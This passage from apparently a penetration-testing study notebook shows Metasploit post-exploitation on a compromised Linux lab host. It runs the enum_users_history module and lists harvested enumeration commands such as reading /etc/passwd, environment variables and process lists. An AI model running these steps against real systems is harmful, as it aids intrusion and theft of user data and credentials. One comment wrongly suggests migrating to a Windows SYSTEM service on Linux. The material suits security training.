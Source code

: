 ![Metasploit - post/linux/gather/checkvm](.gitbook/assets/image-20230422130151548.png)

- Enumerate **users history**

```bash
search enum_users_history
use post/linux/gather/enum_users_history
# Description:
#   This module gathers the following user-specific information: shell 
#   history, MySQL history, PostgreSQL history, MongoDB history, Vim 
#   history, lastlog, and sudoers.
set SESSION 3
run

# If this doesn't work, migrate to a "NT AUTHORITY\SYSTEM" user service
```

![Metasploit - post/linux/gather/enum_users_history](.gitbook/assets/image-20230422130408774.png)

```bash
loot
cat /root/.msf4/loot/20230422110345_Linux_PostExp_192.215.55.3_linux.enum.users_227379.txt

    whoami
    cat /etc/passwd
    cat /etc/*issue
    cat /etc/*release
    uname -a
    ip a s
    netstat -antp
    ss -tnl
    ps aux
    env
```
